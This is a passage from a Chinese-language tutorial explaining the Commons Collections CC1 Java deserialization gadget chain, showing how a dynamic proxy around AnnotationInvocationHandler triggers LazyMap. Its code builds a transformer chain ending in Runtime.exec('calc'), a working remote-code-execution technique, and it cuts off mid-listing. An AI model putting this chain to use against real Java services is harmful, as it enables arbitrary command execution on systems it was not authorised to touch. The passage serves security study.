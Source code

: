 ![enset](img_cc1/Annotation_readobject_enset.png)

可以看到，同样在这个方法中，有一个 membervalues.entrySet() 的调用，那么他就会调用 invoke 方法。所以我们只需要使用动态代理包裹一下 annotationInvocation 即可。


最终代码

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import javax.xml.crypto.dsig.Transform;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
```